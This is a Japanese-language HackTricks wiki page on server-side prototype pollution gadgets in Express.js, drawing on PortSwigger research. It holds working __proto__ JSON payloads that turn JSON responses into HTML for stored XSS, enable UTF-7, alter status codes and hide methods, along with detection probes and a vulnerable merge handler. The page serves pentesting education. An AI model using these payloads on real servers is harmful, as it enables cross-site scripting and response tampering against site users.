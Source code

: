 # Express Prototype Pollution Gadgets

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## XSSレスポンスを提供する

**詳細については** [**元の研究を参照してください**](https://portswigger.net/research/server-side-prototype-pollution)

### JSONコンテンツタイプをHTMLに変更する

**JSONコンテンツタイプレスポンス**を使用し、JSONを反映するExpressアプリで：
```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
_.merge({}, req.body);
res.send(req.body);
});
```
これらのケースでは、XSSは通常JSONコンテンツタイプでは不可能です。しかし、プロトタイプ汚染を利用することで、**Expressを混乱させてHTMLレスポンスを提供させることができます。** この脆弱性は、アプリケーションが**`res.send(obj)`**を使用し、application/jsonコンテンツタイプでボディパーサーを使用していることに依存しています。
```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```
**`body`** と **`_body`** プロパティを **汚染** することで、**ExpressがHTMLコンテンツタイプを提供し、** `_body` プロパティを反映させることが可能になり、結果として保存されたXSSが発生します。

### UTF7をレンダリング

Expressが **UTF-7コンテンツをレンダリングする** ことが可能です:
```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```
## 安全なスキャン技術

### JSONスペース

次のPPは、JSON内の属性に余分なスペースを追加し、機能を壊さないようにします：
```json
{"__proto__":{"json spaces": " "}}
```
次のような反射されたJSONになります:
```json
{"foo":  "bar"} -- Note the extra space
```
### Exposed Headers

次のPPガジェットは、サーバーがHTTPヘッダーを返すようにします: **`Access-Control-Expose_headers: foo`**
```json
{"__proto__":{"exposedHeaders":["foo"]}}
```
**CORSモジュールをインストールする必要があります**

### **OPTIONSメソッド**

次のペイロードを使用すると、**OPTIONSレスポンスからメソッドを隠す**ことが可能です:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **ステータス**

次のPPペイロードを使用して、**返されたステータスコード**を変更することが可能です:
```json
{"__proto__":{"status":510}}
```
### エラー

文字列のようなプリミティブをプロトタイプに割り当てると、**プロトタイプはオブジェクトでなければならないため、何も行わない操作が生成されます**。`Object.prototype`自体にプロトタイプオブジェクトを割り当てようとすると、**例外がスローされます**。これらの2つの動作を使用して、**プロトタイプ汚染が成功したかどうかを検出できます**：
```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```
### Reflected Value

アプリケーションがレスポンスにオブジェクトを含めるとき、**`__proto__`** と一緒に**異常な名前の属性**を作成することは洞察を与える可能性があります。特に、**異常な属性のみがレスポンスに返される**場合、これはアプリケーションの脆弱性を示している可能性があります：
```json
{"unusualName":"value","__proto__":"test"}
```
さらに、Lodashのようなライブラリが使用されるシナリオでは、プロトタイプ汚染（PP）を介してプロパティを設定することと、オブジェクト内で直接設定することが別の診断アプローチを提供します。そのようなプロパティがレスポンスから省略されている場合、Lodashがマージする前にターゲットオブジェクト内のプロパティの存在を確認していることを示唆しています。
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Misc

### Allow Dots

Expressには、**クエリ文字列パラメータからオブジェクトを作成する**オプションがあります。\
これは、**プロトタイプ汚染の脆弱性**を悪用するバグ**チェーン**で確実に使用できます。
```json
{"__proto__":{"allowDots":true}}
```
**`?foo.bar=baz` はNodeでオブジェクトを作成します。**

## 参考文献

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)


{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
